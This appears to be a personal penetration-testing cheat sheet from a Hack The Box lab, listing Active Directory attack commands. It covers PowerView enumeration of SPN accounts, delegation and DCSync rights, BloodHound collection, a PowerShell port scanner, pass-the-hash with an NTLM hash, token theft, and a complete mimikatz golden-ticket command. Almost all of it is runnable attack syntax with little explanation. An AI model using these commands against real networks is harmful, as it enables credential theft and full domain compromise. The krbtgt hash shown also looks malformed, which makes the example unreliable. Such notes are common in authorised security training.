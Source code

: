 powershell Get-Domain
powershell Get-Forest
powershell Get-DomainDNSRecord

powershell Get-DomainUSer
powershell Get-DomainUSer -SPN
powershell Get-DomainUser -LDAPFilter '(sidHistory=*)'

* CONSTRAINED DELEGATION
powershell Get-DomainUSer -TrustedToAuth
powershell Get-DomainComputer -TrustedToAuth

powershell Get-DomainGroupMember -Identity "Domain Admins" -Recurse


* WHO CAN DCSYNC - 
powershell Get-DomainObjectACL "dc=els-child,dc=els,dc=local" -ResolveGUIDs | ? {($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')}

# AS ANY DOMAIN USER - BLOODHOUND
neo4j console
bloodhound

powershell-import /home/USER/Documents/HTB/OFFSHORE/SHARE/SharpHound.ps1
powershell get-executionpolicy
powershell invoke-bloodhound -collectionmethod all


# POWERSHELL PORT-SCANNER
$ports=(21,22,23,25,53,79,80,88,110,143,139,445,443,464,993,995,3268,3269,5985,5986,3389,5900,1432,1433,5432,5433,1521,2222,2121,2323,8080,8443); $ip="172.16.1.24"; foreach ($port in $ports){try{$socket=New-Object System.Net.Sockets.TcpClient($ip,$port);} catch{}; if($socket -eq $null) {echo $ip":"$port" - Closed broseef";}else{echo $ip":"$port" - OPEN DUDE!"; $socket = $null;}}


===============================================
CREDENTIALS
===============================================

# [Over]PASS THE HASH
pth child.parentdomain.local\Administrator 311b090a887d3fe6578c2afa9264a6dd

# MAKING / STEALING TOKENS
steal_token
make_token

# GOLDEN TICKETS - valid TGT - what makes it valid? --> its encrypted with the NTLM hash of the krbtgt account
mimikatz kerberos::golden 
/user:administrator 
/domain:child.parent.com 
/sid:S-1-5-21-1874506631-3219952063-538504511
/krbtgt:ff4asd8bd66c6efd77603da26796f35
/id:500
/groups:512
/startoffset:0
/endin:600
/renewmax:10080
/ptt
